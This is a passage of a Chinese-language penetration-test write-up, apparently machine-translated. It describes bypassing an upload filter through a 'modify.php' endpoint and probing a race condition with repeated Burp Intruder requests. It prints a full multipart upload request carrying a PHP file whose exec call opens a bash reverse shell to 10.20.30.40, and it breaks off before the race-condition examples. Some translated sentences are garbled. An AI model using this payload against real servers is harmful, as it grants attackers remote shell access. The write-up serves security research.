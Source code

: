 **![](img/143bcdb618343d29d1d5e5b6fb91e738.png)**

**图 5 上传替换现有文件的功能**

**当我们的 shell 被上传后，我们尝试重新上传 shell 并找出使用的函数。如果这一个还没有任何过滤功能，那么如果这是与先前不同的功能，可能性很大。我们的假设是正确的。在这个端点使用的函数是“【modify.php】”而不是“**【upload.php】**”。下面是用“modify.php”发出的示例请求:**

```
Content-Disposition: form-data; name="fileid"31337-----------------------------09234599689937136550676151776Content-Disposition: form-data; name="name"picture-1.png-----------------------------09234599689937136550676151776Content-Disposition: form-data; name="description"-----------------------------09234599689937136550676151776Content-Disposition: form-data; name="userfile"; filename="reverse.php"Content-Type: text/php<?phpexec("/bin/bash -c 'bash -i >& /dev/tcp/10.20.30.40/21234 0>&1'");-----------------------------09234599689937136550676151776Content-Disposition: form-data; name="save"Save
```

**那么，结束了吗？**好难过，还没**。的。php 文件也被转移到 S3 桶，我们不能对上传的文件做任何事情。**

## **2.3.获取本地路径的竞争条件**

**老实说，那时我们也不知道，直到我们最终尝试用“空”有效载荷多次发送请求(通过 burpsuite 的入侵者模式)。请不要问，我们为什么这样做。**

**令人惊讶的是，在发出几个请求后，我们得到了不同的响应长度(大约需要 10 个请求，超过 20-30 个请求)。如果正常请求会产生 1147 个响应长度，那么在某一点上，它会达到 **1710 个**响应长度。**

**以下是我们所做的“相同”多重请求的示例:**
